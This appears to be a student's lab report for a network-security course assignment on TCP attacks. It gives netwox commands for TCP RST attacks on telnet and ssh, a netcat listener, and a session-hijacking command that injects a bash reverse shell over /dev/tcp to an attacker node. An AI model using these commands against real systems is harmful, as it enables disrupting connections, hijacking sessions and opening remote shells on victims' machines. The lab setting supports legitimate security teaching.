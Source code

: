 ```yaml
---
date: 2025-04-05
description: "and assignments"
id: A5
modified: "2025-07-05 01:53:57 GMT-04:00"
tags:
  - sfwr4c03
  - assignment
title: "TCP attacks"
---
```


## TCP RST Attacks on `telnet` and `ssh`

leg IP: `10.0.0.2`, vic IP: `10.0.0.3`

The `netwox` commands are as follow:

```bash
netwox 78 -d eth0 --filter "host 10.0.0.2 and host 10.0.0.3 and port 23"
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-terminal.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker.webp]]

This is for SSH

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-leg.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/ssh-wireshark.webp]]

## TCP Session Hijacking

1. The following is the captured image on attacker node:

```bash
netcat -l 9090 -nv
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attacker-tcp-hijacking.webp]]

The victim node then perform `bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reverse-vic-node.webp]]

The attacker node now completes the reverse shell process, as shown through `ifconfig`

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/reversed-shell-complete-att.webp]]

2. `netwox` command:

```bash
netwox 40 --ip4-src 10.0.0.2 -m 10.0.0.3 -o 58438 -p 23 -q 2811481894 -r 2489318395 -z -H "0d0a'/bin/bash -i > /dev/tcp/10.0.0.1/9090 0<&1 2>&1'0d0a"
```

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/attack-node-cmd-reverse.webp]]

![[thoughts/university/twenty-four-twenty-five/sfwr-4c03/new-wireshark.webp]]

## report

Based on the results observed from the network penetration tests, both attacks achieved their intended outcomes. The initial assault, conducted with `netwox 78` effectively terminated the connection between nodes 'leg' and 'vic' as soon as the command was launched. If the disruption persisted, 'leg' was rendered unable to re-establish a link to 'vic', which receiving only a "connection closed by foreign host" message in response. This situation demonstrates how an attacker could block a user's access to a server without much effort.

Similarly, the second offensive strategy utilizing `netwox 40` successful in enabling the stealthy execution of commands on 'vic', without leaving any trace of the intrusion. This capability is particularly alarming as it allows an attacker to secretly harvest data or execute harmful activities on a user's machine, where it would ultimately be without their awareness.
